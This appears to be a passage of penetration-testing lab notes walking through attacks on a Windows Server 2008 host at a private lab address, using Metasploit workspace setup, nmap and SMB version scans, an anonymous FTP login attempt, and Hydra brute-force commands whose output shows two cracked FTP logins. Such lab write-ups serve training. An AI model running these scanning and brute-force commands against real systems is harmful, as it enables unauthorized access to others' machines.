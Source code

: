 ```bash
db_status
workspace -a Win2k8
setg RHOST 10.2.29.246
setg RHOSTS 10.2.29.246
db_import nmap_10k
```

```bash
hosts
services
use auxiliary/scanner/smb/smb_version
run
hosts
# Name of computer is correct now
```

## Targeting

### [IIS / FTP](../1-system-attack/windows-attacks/iis-webdav.md)

```bash
nmap -sV -sC -p21,80 10.2.29.246

# FTP is part of the Microsoft IIS package 
```

- Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.2.29.246
```

![](.gitbook/assets/image-20230424111034331.png)

- **Brute-force** the FTP server

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.29.246 ftp

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.29.246 ftp -I
```

```bash
[21][ftp] host: 10.2.29.246   login: administrator   password: vagrant
[21][ftp] host: 10.2.29.246   login: vagrant   password: vagrant
```

![](.gitbook/assets/image-20230424111420412.png)

> 📌 2 FTP users:
>
> - `administrator`:`vagrant`
> - `vagrant`:`vagrant`
